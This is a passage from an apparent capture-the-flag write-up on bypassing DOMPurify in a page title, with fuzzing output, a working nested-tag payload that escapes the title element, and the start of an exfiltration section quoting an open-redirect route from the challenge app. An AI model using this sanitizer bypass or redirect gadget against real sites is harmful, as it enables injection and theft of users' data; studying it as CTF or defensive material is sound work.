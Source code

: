 Really quickly, we will start to get results of tags that find INJECT string outside the `</title>` in the actual dom. (And if you try any of these as the `sharedby` param on the actual site, you will also see this behavior).

```html
Payload:  <table>INJECT<title>INJECT<filter>INJECT<progress>INJECT<textarea>INJECT<ol>INJECT<marquee>INJECT<colgroup>INJECT
Sanitized:  <title>INJECT&lt;filter&gt;INJECT&lt;progress&gt;INJECT&lt;textarea&gt;INJECT&lt;ol&gt;INJECT&lt;marquee&gt;INJECT&lt;colgroup&gt;INJECT</title><table></table>INJECT
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>
        Fancy Text Viewer
            | Shared by &lt;title&gt;INJECT&lt;filter&gt;INJECT&lt;progress&gt;INJECT&lt;textarea&gt;INJECT&lt;ol&gt;INJECT&lt;marquee&gt;INJECT&lt;colgroup&gt;INJECT</title></head><body><table></table>INJECT
        <link rel="stylesheet" href="/static/style.css">
    <div class="container">
    </div>
</body>
```

You can note here that the main issue that causes this behavior seems to be the `<table>` tag. You can continue to modify this fuzz script to specify some explicit tags like table, style, and fuzz the rest.

Eventually, the payload I found that was:
```html
<TABLE><TH><SVG><STYLE>INJECT<TITLE><COL><TITLE>
```

When this gets passed through DOMPurify, it becomes:
```html
<title></title><table><tbody><tr><th><svg><style>INJECT<title></title></style></svg></th></tr></tbody><colgroup><col></colgroup></table>
```

And when its in a title context, note that the first closing title tag is before the `<style>INJECT`, meaning the style will be outside the title tag and will apply to the overall document.

### Exfiltration
But still, now how do we exfiltrate? For this, we can look back to the `app.js` and notice a few convenient gadgets. These two inclusions are expecially interesting:
```js
app.use((req, res, next) => {
    for (const key in req.query) {
        let value = req.query[key];
        delete req.query[key];
        req.query[key.toLowerCase()] = value;
    }
    next();
});

app.get("/redirect", (req, res) => {
    let url = req.query.url;
    if (!url.startsWith("http://") && !url.startsWith("https://")) {
        url = "http://" + url;
    }
    res.redirect(url);
});
```
